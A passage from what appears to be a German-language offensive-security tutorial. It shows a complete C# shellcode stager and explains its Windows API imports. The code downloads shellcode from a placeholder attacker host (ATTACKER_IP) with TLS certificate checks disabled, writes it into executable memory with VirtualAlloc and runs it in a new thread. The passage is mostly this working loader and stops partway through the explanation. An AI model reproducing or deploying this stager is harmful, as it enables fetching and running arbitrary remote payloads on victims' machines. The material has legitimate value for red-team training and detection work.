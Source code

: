 ```CS

  //https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-waitforsingleobject
  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

  public static void Main()
  {
    string url = "https://ATTACKER_IP/shellcode.bin";
    Stager(url);
  }

  public static void Stager(string url)
  {

    WebClient wc = new WebClient();
    ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
    ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;

    byte[] shellcode = wc.DownloadData(url);

    UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```

Der Code mag auf den ersten Blick einschüchternd wirken, ist jedoch relativ einfach. Lassen Sie uns Schritt für Schritt analysieren, was er macht.

Der erste Teil des Codes wird einige Windows-API-Funktionen über P/Invoke importieren. Die benötigten Funktionen sind die folgenden drei aus `kernel32.dll`:
| WinAPI Function          | Description                                                           |
|--------------------------|-----------------------------------------------------------------------|
| VirtualAlloc()           | Ermöglicht uns, Speicher zu reservieren, der von unserem Shellcode verwendet werden soll. |
| CreateThread()           | Erstellt einen Thread als Teil des aktuellen Prozesses.                |
| WaitForSingleObject()    | Wird zur Thread-Synchronisierung verwendet. Ermöglicht das Warten auf das Beenden eines Threads, bevor mit der Ausführung fortgefahren wird. |

Der Teil des Codes, der für den Import dieser Funktionen zuständig ist, lautet wie folgt:
```CS
//https://docs.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-virtualalloc 
[DllImport("kernel32")]
private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

//https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread
[DllImport("kernel32")]
private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

```